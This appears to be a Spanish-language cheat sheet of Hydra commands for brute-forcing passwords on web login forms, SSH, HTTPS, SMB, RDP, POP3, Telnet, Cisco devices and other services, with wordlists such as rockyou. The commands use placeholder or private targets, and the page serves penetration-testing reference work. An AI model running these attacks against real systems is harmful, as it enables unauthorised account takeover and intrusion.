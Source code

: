 ## Bruteforcing

**Ejemplos del uso de Hydra**  
*Fuerza bruta a formulario enviado por Peticion POST*    
{% highlight markdown %}
hydra 10.0.0.1 http-post-form “/admin.php:target=auth&mode=login&user=^USER^&password=^PASS^:invalid” -P /usr/share/wordlists/rockyou.txt -l admin
{% endhighlight %}    

{% highlight markdown %}
hydra -l admin -P /usr/share/wordlists/rockyou.txt -o results.txt IPADDR PROTOCOL
{% endhighlight %}    

**Usando Hydra para realizar un ataque de fuerza bruta hacia el servicio de SSH**  
{% highlight markdown %}
hydra -L users.txt -P password.txt -vV -o ssh.log -e ns IP ssh
{% endhighlight %}    

**Usando Hydra para realizar un ataque de fuerza bruta hacia HTTPS**  
{% highlight markdown %}
hydra -m /index.php -l username -P pass.txt IP https
{% endhighlight %}    

**Usando Hydra para realizar un ataque de fuerza bruta hacia teamspeak**  
{% highlight markdown %}
hydra -l username -P wordlist -s portnumber -vV ip teamspeak
{% endhighlight %}    

**Usando Hydra para realizar un ataque de fuerza bruta hacia CISCO**  
{% highlight markdown %}
hydra -P pass.txt IP cisco
hydra -m cloud -P pass.txt 192.168.1.11 cisco-enable
{% endhighlight %}    

**Usando Hydra para realizar un ataque de fuerza bruta hacia el servicio de SMB**  
{% highlight markdown %}
hydra -l administrator -P pass.txt IP smb
{% endhighlight %}    

**Usando Hydra para realizar un ataque de fuerza bruta hacia el servicio de POP3**  
{% highlight markdown %}
hydra -l muts -P pass.txt my.pop3.mail pop3
{% endhighlight %}    

**Usando Hydra para realizar un ataque de fuerza bruta hacia el servicio de RDP**  
{% highlight markdown %}
hydra IP rdp -l administrator -P pass.txt -V
{% endhighlight %}    

**Usando Hydra para realizar un ataque de fuerza bruta hacia el servicio de http-proxy**  
{% highlight markdown %}
hydra -l admin -P pass.txt http-proxy://192.168.1.111
{% endhighlight %}    

**Usando Hydra para realizar un ataque de fuerza bruta hacia el servicio de TELNET**  
{% highlight markdown %}
hydra IP telnet -l username -P wordlist -t 32 -s 23 -e ns -f -V
{% endhighlight %}    
